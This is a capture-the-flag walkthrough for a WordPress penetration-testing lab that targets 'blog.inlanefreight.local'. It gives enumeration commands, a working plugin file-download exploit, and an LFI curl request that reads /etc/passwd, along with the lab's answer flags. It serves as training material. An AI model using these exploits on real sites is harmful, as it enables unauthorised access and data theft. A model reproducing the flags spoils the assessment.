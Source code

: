 We have reached the end of the module!

Now let's put all of the new skills we have learned into practice. This final skills assessment will test each of the topics introduced in this module against a new WordPress target.

## Scenario

You have been contracted to perform an external penetration test against the company `INLANEFREIGHT` that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

Note: You need to have a knowledge about how in Linux DNS mapping is done when the name server is missing.



#### Questions

Identify the WordPress version number.

* First, run a command with nmap as " nmap -Pn \<ip given> ", theres an HTTP and HTTPS connection available so use any of those to open the webpage in your browser
* once you are in the page, check for all the links and buttons, where they lead to and you will fine an interesting one called " blog.inlanefreight.local ". If you try accessing it, the webpage wont resolve, so you have to add the page to your list of hosts
* Run command " sudo sh -c 'echo “10.129.2.37 blog.inlanefreight.local” >> /etc/hosts' ", make sure the hosts does not have double quotes on the host file, if it does then remove them
* You can either access the webpage now by pressing the button that would not resolve before, or run the command " curl -s -X GET http:\//blog.inlanefreight.local/ | grep '\<meta name="generator"' " 
* 5.1.6

Identify the WordPress theme in use.

* Run command " curl -s -X GET http:\//blog.inlanefreight.local/ | grep theme ", you will see the used theme in several results 
* twentynineteen

Submit the contents of the flag file in the directory with directory listing enabled.

* Run command " wpscan --enumerate ap --url http:\//blog.inlanefreight.local/ ", the output will show theres a directory listing available in the address " http:\//blog.inlanefreight.local/wp-content/uploads/ " so we will use it
* go to the webpage from the address you just got and you will see a file called "upload_flag.txt"
* HTB{d1sabl3_d1r3ct0ry_l1st1ng!}

Identify the only non-admin WordPress user. (Format: \<first-name> \<last-name>)

* Run command " wpscan --enumerate u --url http:\//blog.inlanefreight.local/ ", this will scan for users available on the page, the only user which does not have any sort of permissions is the one the scan found via brute force
* Charlie Wiggins

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

*  Run command " wpscan --enumerate ap --url http:\//blog.inlanefreight.local/ ", this will scan for the vulnerable plugins the site has, we will use one in particular called " email-suscribers "
* Search on google for " CVE email-suscribers wordpress " and you will find one vulnerability in particular coded " CVE 2019-19985 " which allows for an authenticated file download
* for you to run the vulnerability, either go to a browser and type the whole link as " http:\//blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all " or do a curl, this will download a list of " subscribed users file " which you can open to get the flag
* HTB{unauTh_d0wn10ad!}

What is the version number of the plugin vulnerable to an LFI?

* Run command " wpscan --enumerate ap --url http:\//blog.inlanefreight.local/ ", theres only 2 plugins and the one you need is the first one
* 1.1.1

Use the LFI to identify a system user whose name starts with the letter "f".

* Search on google for " LFI Wordpress plugin ", it should intruct you on using the LFI by running the command " curl http:\//blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd ", it will give you a list of users in the webpage server, then just look for the one that starts with " f "
* frank.mclane

Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.

* 
* HTB{w0rdPr355_4SS3ssm3n7}